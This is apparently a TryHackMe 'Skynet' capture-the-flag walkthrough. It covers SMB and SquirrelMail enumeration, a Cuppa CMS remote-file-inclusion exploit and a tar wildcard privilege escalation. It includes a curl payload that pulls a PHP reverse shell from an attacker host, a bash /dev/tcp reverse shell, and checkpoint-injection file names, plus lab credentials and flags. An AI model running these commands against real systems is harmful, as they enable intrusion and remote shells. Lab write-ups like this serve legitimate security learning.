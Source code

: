 # Skynet - THM CTF

## d0nkeyk0ng787
## COMPLETED 1302 12 MAY 22

### Box IP - 10.10.15.129

### Creds

EMAIL - milesdyson:cyborg007haloterminator
SMB - 'milesdyson:)s{A&2Z=F^n_E.B`'

### Enum

Open Ports - 22, 80, 110, 139, 143, 445

Interesting pages found with gobuster - /admin, /config, /squirrelmail

Both /admin and /config return 403s but squirrelmail provides a login page that is likely an attack vector

We see the server is running samba which might be a possible attack vector aswell

Trying to access the samba server using smbclient requires a root password but was worth a try

There is also a pop3 server on 110 which is the email server

Running the command "smbmap -H 10.10.15.129" gives us some useful information regarding shares on the samba server

We see there is a READ ONLY share named anonymous

Running the command 'smbclient //10.10.15.129/anonymous -U guest' we can take a look. Inside this share there is an attention.txt file and 3 log files

Attention.txt suggests there was a system malfunction causing all employees to have to change their passwords. Log1 looks to contain a list of potential passwords for miles dawsons account we can try bruteforce.

We can assume that miles username is 'milesdyson' as that is the name of his share on samba. So before I bruteforced it I just wanted to see if I would get any indication that the username was correct so I tried milesdyson and the first string in the log1.txt which turned out to be the username:password combo. Kinda lucky but we take those wins.

In the emails we find a password for smb, some binary and a random message that looks like rambling

Using the username and password we got from the emails we can access the milesdyson share on samba

We find an important.txt file which contains the link to a hidden page on the website

It's always worth using gobuster on a secret page like this since the page itself doesn't really have much. From gobuster we can see there is a /administrator page

On this page we see it is running a CMS named Cuppa. A simple search on exploitdb returns a known RFI vulnerability we can use to get a remote shell on the server. Using the following payload we can exploit this vulnerability.

curl -s --data-urlencode urlConfig=http://10.10.10.10:80/php-reverse-shell.php http://10.10.15.129/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php

After upgrading the shell, we can grab the user flag

### Priv Esc

We see that there is a backup script 'backup.sh' that compresses and backups the entire /var/www/html directory and puts it in milesdysons home directory. This may offer a possible route of priv esc.

GTFO bins has a tar entry which we can use to break out of a restricted shell 'tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh'

Using the following commands and starting another nc listener on 6666 we can get a root shell

printf '#!/bin/bash\nbash -i >& /dev/tcp/10.10.10.10./6666 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell

From here we can grab the root flag


### Flags

User Flag - 7ce5c2109a40f958099283600a9ae807
Root Flag - 3f0372db24753accc7179a282cd6a949
